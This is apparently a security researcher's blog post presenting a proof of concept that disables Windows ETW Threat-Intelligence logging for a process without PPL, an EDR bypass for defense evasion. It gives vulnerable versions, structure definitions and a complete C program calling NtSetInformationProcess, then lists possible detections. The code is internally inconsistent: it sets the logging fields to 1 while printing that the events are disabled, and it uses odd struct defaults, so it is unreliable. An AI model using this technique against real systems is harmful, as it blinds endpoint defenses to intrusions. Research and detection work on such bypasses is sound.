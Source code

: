 ```yaml
---
layout: post
title: "ETW-ByeBye: Disabling ETW-TI Without PPL"
date: 2024-04-24 12:15:00 +1000
categories: DefenseEvasion Windows
---
```


# Intro

Back in October of 2023, RiskInsight published a blog post that caught my attention. The post explained [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/), detailed a "bug" that to disable ETW-TI logging for a given process from user mode **without** the expected PPL requirement.

As RiskInsight already explained this in detail, I will not be explaining background on how ETW-TI works under the hood. I will simply be building upon their blog post, with the aim of showing how I went from their post to a functional POC. 

# Contents

1. [Intro](#intro)
2. [Exploitation Requirements](#exploitation-requirements)  
3. [The Bug](#the-bug) 
4. [Building A POC](#building-a-poc) 
5. [Potential Detections](#potential-detections) 
6. [References](#references) 

# Exploitation Requirements

In order to exploit this bug, you require either `SeDebug` or `SeTcb` privileges to be enabled, and be on one of the following vulnerable Windows versions: 

|                                          | Win10<br>1507 -> 1703 | Win10<br>1709 -> 1803 | Win10<br>1809 -> 22H2 | Win11<br>21H2 -> 22H2 |
| ---------------------------------------- | --------------------- | --------------------- | --------------------- | --------------------- |
| Read virtual memory operation            | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Write virtual memory operation           | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Process suspension / resuming operations | N/A                   | N/A                   | Vulnerable            | Patched               |
| Thread suspension / resuming operations  | N/A                   | N/A                   | Vulnerable            | Patched               |
Thanks to RiskInsight for this table: [Source](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/)

# The Bug

As ETW-TI can raise a large number of events, it is enabled on a per-process basis. To do so, you make a call to `NtSetInformationProcess`, specifying either `ProcessEnableReadWriteVmLogging` or  `ProcessEnableLogging` as the `ProcessInformationClass`.

The intention is that alongside the permissions mentioned prior, in order to disable process should be a protected process `PROTECTED_ANTIMALWARE_LIGHT`, and thus signed by Microsoft. However, this check is missing on the aforementioned windows versions, and so only the token permission checks are in place. Again, RiskInsight went into a lot of detail about this, and so if you want to find out more, feel free to give [their post](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) a read.

Taking a look at a cleaned up binary ninja decompilation, we see the token permissions checks (and can confirm that there are no PPL checks in place):

![image of binary ninja decompilation of NtSetInformationProcess](/assets/img/posts/disabling-etw-ti-without-ppl/binary-ninja-decompilation.png)

# Building A POC

The first step to building a functional proof-of-concept was figuring out the related structures/enum definitions. Thanks to various public resources, namely [ntdoc.m417z.com](https://ntdoc.m417z.com) and [jsecurity101.medium.com/uncovering-windows-events](https://jsecurity101.medium.com/uncovering-windows-events-b4b9db7eac54) learning about the required structures and enums was easy.

Regarding the `PROCESS_INFO_CLASS` enum, I referenced [ntdoc.m417z.com/processinfoclass](https://ntdoc.m417z.com/processinfoclass), and to figure out what to pass as our `ProcessInformation`, I referenced [ntdoc.m417z.com/process_readwritevm_logging_information](https://ntdoc.m417z.com/process_readwritevm_logging_information) and [ntdoc.m417z.com/process_logging_information](https://ntdoc.m417z.com/process_logging_information). This resulted in having the following definitions:

**PROCESS_INFO_CLASS** 
```c
typedef enum _PROCESSINFOCLASS
{
    // [SNIPPED FOR BREVITY]
    ProcessEnableReadWriteVmLogging = 0x57, // qs: PROCESS_READWRITEVM_LOGGING_INFORMATION
    // [SNIPPED FOR BREVITY]
    ProcessEnableLogging = 0x60, // qs: PROCESS_LOGGING_INFORMATION
} PROCESSINFOCLASS;
```

**PROCESS_READWRITEVM_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_READWRITEVM_LOGGING_INFORMATION
{
    UCHAR Flags;
    UCHAR EnableReadVmLogging;
    UCHAR EnableWriteVmLogging;
    UCHAR Unused = 6;
} PROCESS_READWRITEVM_LOGGING_INFORMATION, *PPROCESS_READWRITEVM_LOGGING_INFORMATION;
```

**PROCESS_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_LOGGING_INFORMATION
{
    ULONG Flags;
    ULONG EnableReadVmLogging;
    ULONG EnableWriteVmLogging;
    ULONG EnableProcessSuspendResumeLogging;
    ULONG EnableThreadSuspendResumeLogging;
    //ULONG EnableLocalExecProtectVmLogging;  // New in Win11
    //ULONG EnableRemoteExecProtectVmLogging; // New in Win11
    ULONG Reserved = 26;
} PROCESS_LOGGING_INFORMATION, * PPROCESS_LOGGING_INFORMATION;
```

With all this ready, I just had to figure out what values to set, I'll save you the trouble and just let you know that `Flags` should be set to `0xf` in all cases.

From there, just make a simple call to `NtSetInformationProcess` as follows, there's nothing more to it :)

```c
int main(int argc, char** argv, char** envp)
{
    HMODULE Ntdll = GetModuleHandleA("ntdll.dll");
    typeNtSetInformationProcess NtSetInformationProcess = (typeNtSetInformationProcess)GetProcAddress(Ntdll, "NtSetInformationProcess");

    // Prepare for NtSetInformationProcess
    PROCESS_LOGGING_INFORMATION ProcessLoggingInformation = { 0 };
    ProcessLoggingInformation.Flags = (ULONG)0xf;
    ProcessLoggingInformation.EnableReadVmLogging = 1;
    ProcessLoggingInformation.EnableWriteVmLogging = 1;
    ProcessLoggingInformation.EnableProcessSuspendResumeLogging = 1;
    ProcessLoggingInformation.EnableThreadSuspendResumeLogging = 1;
    ProcessLoggingInformation.Reserved = 26;

    NTSTATUS Status = NtSetInformationProcess(
        (HANDLE)-1,
        (ULONG)ProcessEnableLogging,
        &ProcessLoggingInformation,
        sizeof(_PROCESS_LOGGING_INFORMATION));

    if (NT_SUCCESS(Status))
    {
        printf("[+] Successfully disabled the following ETW-Ti events\n"
               " - ReadVmLogging\n"
               " - WriteVmLogging\n"
               " - ProcessSuspendResumeLogging\n"
               " - ThreadSuspendResumeLogging\n");
    }
    else
    {
        printf("[!] Error, status 0x%08X\n", Status);
    }

	return 0;
}
```

# Potential Detections / Preventions

Important to note that regarding how practical these are, they are purely speculation on my part.

1. Hooking NtSetInformationProcess in user mode
    - This can very likely be bypassed albeit still a line of defense.
2. Walking the `KPROCESS` list and checking if ETW-TI has been disabled for a non-expected process
    - Not sure how viable this is due to potentially having to set a spinlock on the list, but would be a very powerful integrity check if doable.
3. Lack of ETW-TI telemetry
    - Checking if a process is raising no events of a common event type e.g. `ReadVmLogging`. (Credit to [@bakki](https://twitter.com/shubakki))
4. Update to Windows 11
    - As this bug no longer exists on Windows 11, if migration is possible that I will always recommend this over alternatives. 

# References

- [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) - RiskInsight's blog post of which inspired me to build this POC. 
- [SealighterTI](https://github.com/pathtofile/SealighterTI) - A tool to test the Thread-Intelligence ETW Provider 
- [Tweet - First Seen Usage?](https://x.com/SBousseaden/status/1745022464965349628)
- [NtDoc](https://ntdoc.m417z.com/)